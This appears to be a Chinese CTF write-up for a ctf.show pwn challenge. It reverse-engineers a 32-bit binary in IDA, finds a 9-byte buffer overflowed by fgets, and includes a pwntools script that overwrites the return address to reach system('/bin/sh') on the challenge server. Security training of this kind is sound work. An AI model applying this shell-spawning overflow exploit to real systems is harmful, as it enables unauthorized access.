


下载文件，逆向一下，打开IDA,tab编译。  我们可以注意到有一个pwnme函数，打开看看。 
查看v1数据
我们可以注意到有一个pwnme函数，打开看看。 
查看v1数据  不知道为什么跟网上的不一样，不过意思是一样的，就是v1只有9个字节大小。但是fgets读入了50个字符，可以利用这个构造栈溢出漏洞。
s下面有一个r,这个r就是ret。
不知道为什么跟网上的不一样，不过意思是一样的，就是v1只有9个字节大小。但是fgets读入了50个字符，可以利用这个构造栈溢出漏洞。
s下面有一个r,这个r就是ret。
CALL，RET和LEAVE CALL指令的步骤：首先是将返回地址（也就是call指令要执行时EIP的值）压入栈顶，然后是将程序跳转到当前调用的方法的起始地址。执行push和jump指令。 RET指令则是将栈顶的返回地址弹出到EIP，然后按照EIP此时指示的指令地址继续执行程序。 LEAVE指令是将栈指针指向帧指针，然后POP备份的原帧指针到%EBP。
我们可以填充9个字节占满v1,再填充4个字节的地址覆盖ret，让其跳转到我们想要的地方。
shift+f12查看字符数据。  这个服务器应该是Linux架构，Linux的/bin是一个存储了很多可执行文件的目录。比如cat,mv,date等。
双击
这个服务器应该是Linux架构，Linux的/bin是一个存储了很多可执行文件的目录。比如cat,mv,date等。
双击/bin/sh跳转。  双击右边的
双击右边的stack+9↑o跳转。  看到
看到stack函数调用了system("/bin/sh"),我们要跳转的就是这里。
 接下来就是写exp了。打开kali，使用python3编写。代码如下
接下来就是写exp了。打开kali，使用python3编写。代码如下 1
2
3
4
5
6
7
8
9
10
11
12from pwn import * #引入pwn包所有函数
content = 1
def main():
if content == 0:
p = process("./stack")#这是连接本地文件，其实在这里没什么用不写也可以因为根本就不会执行
else:
p = remote("pwn.challenge.ctf.show",28040)#建立一个远程连接需要相应URL/IP和port当然这就是在前面创建的容器（服务器）信息，将remote对象保存至变量p中
payload = b'a'*13#数据打包，由于前文提到的在s处填入9+4个字节
payload += p32(0x804850F)#同上，p32()将整数值转为32位打包
p.send(payload)#调用对象p的方法，send()将shellcode送至服务器端
p.interactive()#将控制权交给用户可使用打开的shell
main() 得到flag。
得到flag。